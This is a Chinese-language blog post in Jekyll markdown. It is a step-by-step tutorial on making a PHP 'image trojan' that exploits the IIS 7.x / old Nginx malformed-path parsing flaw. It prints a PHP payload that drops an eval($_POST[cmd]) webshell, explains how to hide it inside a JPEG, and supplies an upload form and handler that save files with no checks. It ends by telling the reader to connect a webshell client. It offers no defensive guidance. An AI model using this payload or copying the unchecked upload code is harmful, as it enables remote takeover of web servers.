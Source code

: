 ```yaml
---
layout: post
title:  "PHP图片木马"
date:   2017-11-03 9:03:02 +0800
author: "Q九"
desc: "本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞 基于Windows系统的"

in_head: "<style> .article-content p{
  text-indent: 2em;
  line-height: 1.75rem;
}</style>"
---
```


# PHP图片木马 实现

*运行环境介绍*

**本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞**

> Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的
在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```
>的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php


**实验过程**

### 制作图片木马

**使用windows自带的 cmd 命令行进行图片木马的制作**

A.如下图所示:

![]()

 准备两个文件  一个 正常的图片文件  一个 一句话木马文件

B.如下图所示:
    
![]()

运行上图所写的命令 会把两个文件合成一个文件  如下图所示:

![]()

会看到文件大小 会变化

然后用记事本打开两个图片就会发现 图片内容发生改变如图

![]()

至此 一句话木马图片制造完毕！

### 接下来我们准备测试的代码 :

![]()

如图所示 我们准备一个 上传文件的表单  代码如下:

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<form action="./2.php" method="post" enctype="multipart/form-data">
    <input type="file" name="pic" id="">
    <button type="submit">上传</button>
</form>
</body>
</html>
```
   

再准备一个2.php 文件 用来处理上传图片,代码如下:

```php
<?php
$file = $_FILES['pic'];
move_uploaded_file($file['tmp_name'],__DIR__.'/1.jpg');
```


### 开始试验

OK! 开始运行代码,上传我们生成的图片木马,上传完毕以后 如下图所示:

![]()

然后我们直接在浏览器中访问图片1.jpg 会看到图片正常显示, 接下来 我们访问图片的时候  路径 如图所示 

![]()

就会发现 在当前文件夹中生成一个 shell.php内容如下 :

![]()

### 试验完毕

ok 剩下的就是上菜刀了！
